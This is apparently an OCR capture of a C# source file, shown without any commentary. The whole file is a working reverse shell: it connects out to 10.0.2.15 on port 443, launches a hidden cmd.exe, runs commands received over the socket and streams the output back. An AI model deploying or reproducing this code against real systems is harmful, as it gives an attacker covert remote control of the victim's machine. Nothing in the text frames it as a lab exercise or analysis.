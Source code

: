 ```cs
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient("10.0.2.15", 443))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```
